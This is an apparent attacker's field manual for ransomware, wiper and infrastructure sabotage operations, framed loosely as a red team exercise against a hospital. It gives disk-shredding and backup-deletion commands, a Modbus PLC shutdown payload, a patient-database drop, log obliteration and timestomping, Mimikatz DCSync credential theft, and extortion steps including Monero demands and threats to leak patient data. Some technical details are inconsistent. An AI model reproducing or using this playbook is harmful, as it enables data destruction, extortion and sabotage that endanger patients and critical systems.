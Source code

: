 # Field manual: Operation Nutcracker (2025 Edition)

*When you want to leave more than just shells behind – leave chaos.*

## Operational objectives

* Sabotage – Render systems unusable for geopolitical or competitive advantage
* Extortion – Maximize payout pressure through multi-vector attacks
* Plausible Deniability – Burn the house down without leaving fingerprints

## Attack arsenal

### AI-Optimised ransomware (LockBit 5.0 Protocol)

Adaptive encryption engine:

```python
# Pseudocode for ML-driven target selection
if file_extension in ('.sql','.vmx','.backup'):
    encrypt(file)  # Prioritizes DBs/VMs/backups
else:
    bypass(file)   # Skips non-critical files to accelerate encryption
```

Triple extortion playbook:

* Encrypt primary storage
* [exfiltrate](exfiltration.md) to private Tor-based leak site
* Threaten volumetric DDoS during negotiations

### Hybrid Wiper-Ransomware (Blackout Worm variants)

Execution Flow:

```bash
# Phase 1: Backup Destruction (Linux)
shred -n 10 -u /dev/sdX  # DoD 7-pass equivalent

# Phase 2: Ransomware Deployment (Windows)
.\MedusaLocker.exe --extension .chernobyl --note README.html
```

Use `ionice -c 3` to reduce disk I/O visibility during shredding.

### Critical infrastructure sabotage

SCADA/ICS killswitch:

```python
# Modbus TCP payload to override PLC registers
payload = b'\x00\x01\x00\x00\x00\x06\x01\x06\x00\x64\xFF\xFF'  # Force emergency shutdown
```

Database annihilation:

```sql
    DROP DATABASE patient_records WITH NORECOVERY;  # SQL Server persistent damage
```

### Forensic countermeasures

Log Obliteration Kit:

```powershell
# Windows
Clear-EventLog -LogName Security,Application,System
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\WMI\Autologger -Name Start -Value 0

# Linux
find /var/log -type f -exec shred -n 3 {} \;
```

Timestomping:

```bash
touch -r /etc/passwd malicious_file  # Inherits timestamps from legitimate file
```

## Red team exercise: "Hospital Zero" (2025)

**Phase 1: Infiltration**

* Delivery: Malicious ISO masquerading as "Patient_Scan_2987.iso"
* Exploit: CLFS zero-day (CVE-2025-29824) → NT AUTHORITY\SYSTEM

**Phase 2: Domain dominance**

```powershell
# Credential Harvesting
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:corp.hospital /user:Administrator"'

# Lateral Movement
Enter-PSSession -ComputerName DC01 -Credential $creds -Authentication Negotiate
```

**Phase 3: Surgical strikes**

```bash
# Backup Neutralization
ssh backupadmin@veeam01 "sudo rm -rf /backups/archive/* --no-preserve-root"

# Ransomware Deployment
.\locker.exe --config config.json --timeout 900  # 15-minute encryption sprint
```

***Phase 4: Extortion***

Negotiation channels:

* Primary: Tox Protocol (qTox client)
* Fallback: ProtonMail dead-drop

Payment demand:

* 500 XMR (~$5M) for decryptor
* +200 XMR to suppress 42GB patient data leak

## Blue Team counter-tactics (For OpSec testing)

| Tactic	                | Red Team Evasion Method                         |
|------------------------|-------------------------------------------------|
| Air-gapped backups	    | Veeam credential theft → Remote backup deletion |
| EDR behavioural alerts	 | Process hollowing into `svchost.exe`            |
| Zero Trust policies	   | ADCS relay attacks to forge Kerberos tickets    |

## Lessons from the field

*"In 2025, the most effective attacks look like accidents until it's too late. Your ransomware should be the 
second-worst thing in the victim's timeline."*

## Operational checklist

- ✅ Test wiper modules in QEMU sandboxes before deployment
- ✅ Pre-negotiate XMR escrow channels with dark web brokers
- ✅ Embed false [flags](flag.md) 